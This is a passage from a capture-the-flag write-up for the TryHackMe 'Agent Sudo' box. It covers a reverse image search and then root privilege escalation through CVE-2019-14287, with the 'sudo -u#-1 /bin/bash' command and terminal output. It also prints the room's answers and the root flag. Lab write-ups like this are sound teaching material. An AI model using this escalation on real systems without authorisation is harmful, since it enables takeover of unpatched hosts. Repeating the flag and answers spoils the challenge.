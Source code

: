 ![Directory](https://github.com/user-attachments/assets/1aeccf32-c83f-4cba-b26d-d89436f0f11e)

Now we can see the image:
![Alien](https://github.com/user-attachments/assets/7cabf597-87c4-4048-8602-764557bb4af9)

A ugly alien. We can do a reverse search of the image to find the incident of the photo:
![Reverse search](https://github.com/user-attachments/assets/e0dd4aa7-2dcd-42aa-a600-57f749d2f985)  

![Result](https://github.com/user-attachments/assets/36b1d81b-8667-40ba-aa93-52dac55f053f)  

Searching in articles, we can see it was an autopsy, and the answer is: **Roswell alien autopsy**  

### Task 5  

**5.1 CVE number for the escalation**  

If we type: "sudo -l" in the ssh console trying to get major privileges, we have the next message:  

```
james@agent-sudo:~$ sudo -l  
[sudo] password for james:  
Matching Defaults entries for james on agent-sudo:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  

User james may run the following commands on agent-sudo:  
    (ALL, !root) /bin/bash  
```

The last message "(ALL, !root) /bin/bash" is a vulnerability in Linux servers, searching this message in Google we found this in Exploit-DB:  

![CVE](https://github.com/user-attachments/assets/2ed69c01-80e0-465c-b1c1-ee24cf49d09d)

We have the CVE number and the steps to exploit the vulnerability, so, the answer is: **CVE-2019-14287**  

**5.2 What is the root flag?**  

To find the flag, we have to exploit the vulnerability. Reading the article of Exploit-DB, if we use this command: "sudo -u#-1 /bin/bash" we can exploit it and get major privileges:

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash  
root@agent-sudo:~#  
```

And now we're root user, now we can access to the root folder:  

```
root@agent-sudo:~# cd /root  
root@agent-sudo:/root# ls  
root.txt  
root@agent-sudo:/root# cat root.txt  
To Mr.hacker,  

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.  

Your flag is  
b53a02f55b57d4439e3341834d70c062  

By,  
DesKel a.k.a Agent R  
```
